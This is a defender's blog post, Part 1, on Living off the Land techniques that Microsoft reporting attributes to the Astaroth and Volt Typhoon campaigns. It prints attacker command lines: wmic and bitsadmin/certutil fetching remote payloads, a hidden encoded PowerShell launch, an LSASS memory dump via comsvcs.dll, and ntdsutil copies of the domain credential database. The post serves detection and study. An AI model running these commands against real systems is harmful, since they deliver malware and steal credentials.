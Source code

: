 # LotL techniques with MDE detection - Part 1 
Hello everyone,

For a long time, I have seen Living off the Land (LotL) techniques discussed in Microsoft Security blogs, and recently I have been learning various attack techniques, especially those related to LotL. That's why I believe this is a great time to share my learning and detection insights in MDE through this blog.

### What is living off the land ?

[Microsoft Security blog](https://www.microsoft.com/en-us/security/blog/2018/09/27/out-of-sight-but-not-invisible-defeating-fileless-malware-with-behavior-monitoring-amsi-and-next-gen-av/) explains that “living off the land”, as malware only uses resources already available in the operating system. 

I will show you how LotL techniques were used by attackers, based on past Microsoft Security blogs.


### [Astaroth “living-off-the-land”](https://www.microsoft.com/en-us/security/blog/2019/07/08/dismantling-a-fileless-campaign-microsoft-defender-atp-next-gen-protection-exposes-astaroth-attack/)
This is a somewhat older blog, but I love it because it includes some Windows LotL-related attacks in the attack flow.

1. LNK
2. WMI
3. Bitsadmin
4. Certutil

**LNK** : One common pattern is that an attacker creates a LNK file with a target path that executes a PowerShell command to download and run a malicious script from the internet.

**WMI** : Query the operating system (OS) for specific properties and then formats the output using a custom format file located at a URL.

```cmd
Wmic.exe os get ved5hit39, 25hit8, numberofusers /format:"https://storage.googleapis.com/ultramaker/09/v.txt"
```
```cmd
Wmic.exe os get QMUTSQPK, JUXKBVOK, LNFTZKMH, freephyscialmemory /format:"https://storage.googleapis.com/ultramaker/08/vv.txt" 
```

**Bitsadmin / Certutil** : The commands bitsadmin and certutil can be exploited in cyberattacks, particularly in the context of malware delivery and command-and-control (C2) activities, such as downloading and uploading files.


```cmd
bitsadmin.exe /transfer msd5 /priority foreground https://storage.googleapis.com/ultramaker/x/ 09/falcvonxrenwb.jpg.zip.log? %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z
```

```cmd
certutil.exe -urlcache -f "<URL/Payload>" "%Temp%\demo.exe"
```
```cmd
certutil.exe -decode %PUBLIC%\Libraries\temporary\falxconxrenwb.jpg.z %PUBLIC%\Libraries\temporary\falxconxrenwb.~
```

![Astaroth](image.png)
> Astaroth “living-off-the-land” attack chain showing multiple legitimate tools abused
---

### [Volt Typhoon](https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/)

1. WMI
2. LSASS Process dumping (LotL)
   - cmd.exe / powershell.exe
   - rundll32.exe
   - base64 encode 
3. ntdsutil.exe

```cmd
cmd.exe /c powershell -exec bypass -W hidden -nop -E <Base64>
```

```cmd
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <PID> %Temp%\lsass.dmp full
```

```cmd
wmic /node: /user: /password: process call create "cmd.exe /c mkdir C:\Windows\Temp\tmp & ntdsutil \"as i ntds\" ifm \"create full C:\Windows\Temp\tmp" q q"
```

```cmd
cmd.exe /c ntdsutil "as i ntds" ifm "create full C:\Windows\Temp\pro" q q
```

![alt text](image-1.png)
>  Volt Typhoon attack diagram
---